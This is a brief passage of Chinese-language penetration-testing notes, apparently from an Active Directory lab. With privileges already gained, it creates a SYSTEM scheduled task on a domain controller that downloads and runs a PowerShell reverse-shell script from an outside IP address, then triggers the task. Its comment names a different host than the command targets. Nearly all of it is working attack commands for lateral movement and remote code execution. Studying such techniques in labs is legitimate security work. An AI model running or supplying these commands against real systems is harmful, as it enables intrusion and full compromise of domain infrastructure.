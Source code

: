 ```
利用上面已经取得的权限，为mcorp-dc添加一个定时任务
```
schtasks /create /S eurocorp-dc.eurocorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
```

触发定时任务
```
schtasks /Run /S eurocorp-dc.eurocorp.local /TN "User366"
```
